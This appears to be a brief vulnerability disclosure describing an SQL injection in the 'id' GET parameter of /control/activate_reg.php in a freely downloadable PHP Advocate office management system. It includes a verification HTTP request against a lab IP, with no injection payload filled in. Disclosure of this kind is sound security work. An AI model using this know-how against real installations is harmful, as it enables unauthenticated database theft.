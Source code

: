 

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/activate_reg.php file, and you can see that the code is the id parameter that receives the GET request, and is assigned to the $rid and directly brought into the database for operation.

![image-20250314120226296](images/image-20250314120226296.png)



Vulnerability verification：

```
GET /office/kortex_lite/control/activate_reg.php?id= HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
```

![image-20250314120313125](images/image-20250314120313125.png)



































